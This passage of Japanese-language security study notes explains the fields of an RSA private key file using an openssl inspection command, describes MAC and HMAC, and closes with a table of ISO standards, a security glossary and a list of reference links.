

ちなみに、ssh公開鍵ファイルは(PEM形式のファイルは?)、d,n以外の情報を含んでいる模様。    
(なので、`ssh-keygen`コマンドで公開鍵ファイルを生成できる。d, nだけでは公開鍵を求める計算に素因数分解が必要となり生成困難)    
以下のコマンドで確認できる。
```
openssl rsa -text -noout -in your_private_key.pem
```
```
RSA Private-Key: (4096 bit, 2 primes)
modulus:                    ★ n: 法
    (16進数の文字列)
publicExponent: xxxxxxxxxx  ★ e 公開指数
privateExponent:            ★ d 秘密指数
    (16進数の文字列)
prime1:                     ★ 素数p
    (16進数の文字列)
prime2:                     ★ 素数q
    (16進数の文字列)
exponent1:
    (16進数の文字列)
exponent2:
    (16進数の文字列)
coefficient:
    (16進数の文字列)
```

なお、(ChatGPTさん曰く)2048ビットのRSA鍵が生成された場合、法（modulus）nは2048ビットの大きさになるとのこと。

- n：2048ビット
- p：1024ビット
- q：1024ビット

1024ビットは、10進数にすると309桁。でかい。


## MAC (Message Authentication Code) 

MAC（メッセージ認証符号）は、データの完全性と認証性を提供するために設計された暗号構造です。関連する用語の説明は以下の通りです：

1. **ハッシュ**: ハッシュ関数は、入力を受け取り、通常は数字と文字の並びである固定長の文字列を生成する一方向関数です。入力のわずかな変更でも、出力が大きく異なるものとなります。

2. **HMAC (ハッシュベースのメッセージ認証符号)**: ハッシュ関数を共通鍵と組み合わせて使用するMACのタイプです。HMACでは、共通鍵をハッシングプロセスに含めることで、生成されたコードは鍵を持つ者だけが生成できるようにし、改ざんに対するセキュリティの層を提供します。

3. **共通鍵 (または対称鍵)**: 通信に関与する当事者だけが知っている秘密の鍵です。HMACで認証コードの生成と検証に使用されます。

4. **完全性**: データが無許可の方法で変更されていないことを保証するものを指します。MACを使用することで、メッセージの完全性を確保できます。なぜなら、改ざんが行われると、異なる認証コードが結果として得られるからです。

mermaidを使用したフロー:



## 付録

### 規格

| 名称                               | 説明                                                                                                               |
| ---------------------------------- | ------------------------------------------------------------------------------------------------------------------ |
| ISO/IEC 15408 CC (Common Criteria) | 情報技術に関連した製品及びシステムが適切に設計され、その設計が正しく実装されていることを評価するための国際標準規格 |
| ISO/IEC 27002                      | 企業などの組織における情報セキュリティマネジメントシステムの仕様を定めた規格。                                     |
| ISO/IEC 27017                      | ISO/IEC 27002 のクラウド環境版                                                                                     |

### 用語集

| 用語          | 説明                                                                                              |
| ------------- | ------------------------------------------------------------------------------------------------- |
| CASB          | Cloud Access Security Broker                                                                      |
| CISO          | Chief Information Security Officer 企業や組織における最高情報セキュリティ責任者                   |
| CSIRT         | Computer Security Incident Response Team サイバー攻撃や情報セキュリティの事故に対応する専門チーム |
| SOC（ソック） | Security Operation Center サイバー攻撃の検知や分析を行い、対策を講じる専門組織                    |
|               |                                                                                                   |


### TSLは必ずしも安全ではないという話

- [Celer Bridge incident analysis](https://www.coinbase.com/blog/celer-bridge-incident-analysis)
- [BGPハイジャックとは？ | Cloudflare](https://www.cloudflare.com/ja-jp/learning/security/glossary/bgp-hijacking/)


### リンク集

- [不正アクセス行為の禁止等に関する法律｜情報セキュリティ関連の法律・ガイドライン｜基礎知識｜国民のための情報セキュリティサイト](https://www.soumu.go.jp/main_sosiki/joho_tsusin/security/basic/legal/09.html)
- [情報セキュリティ10大脅威 | 情報セキュリティ | IPA 独立行政法人 情報処理推進機構](https://www.ipa.go.jp/security/10threats/index.html)
- [世界の電子認証基準が変わる：NIST SP800-63-3を読み解く :: トラスト・ログインbyGMO ブログ | シングルサインオン(SSO)や認証に関する話題](https://blog.trustlogin.com/articles/2017/20171130)
- [安全なパスワード管理｜社員・職員全般の情報セキュリティ対策｜企業・組織の対策｜国民のための情報セキュリティサイト](https://www.soumu.go.jp/main_sosiki/joho_tsusin/security/business/staff/01.html)
- [安全なウェブサイトの作り方 | 情報セキュリティ | IPA 独立行政法人 情報処理推進機構](https://www.ipa.go.jp/security/vuln/websecurity/about.html)
- [BGPハイジャックとは？ | Cloudflare](https://www.cloudflare.com/ja-jp/learning/security/glossary/bgp-hijacking/)
- [Linux向け有名パッケージxzにsshバックドアできる脆弱性が埋め込まれた問題について調べる](https://zenn.dev/levtech/articles/1dda57cac26d78)
- [バグ見つけて賞金を稼ぐ「バグバウンティ」。数字から読み解く「バグハンター」の世界 | レバテックラボ（レバテックLAB）](https://levtech.jp/media/article/column/detail_49/)
- [実録 脆弱性発見から報告まで 〜CVE 保持者になりたくて〜 | SBテクノロジー (SBT)](https://www.softbanktech.co.jp/special/cve/2024/0003/)
- [スパムメールの語源(アメリカの"スパム"と繰り返す"うるさい"CM) - Old Spam Commercial w/ Jingle - YouTube](https://www.youtube.com/watch?v=gLRPJEoQBQQ)
- [実験 ： ビギナー管理者のためのブロードバンド・ルータ・セキュリティ講座（4/5） - ＠IT](https://atmarkit.itmedia.co.jp/fpc/experiments/008bbrouter_sec/block_share_02.html)

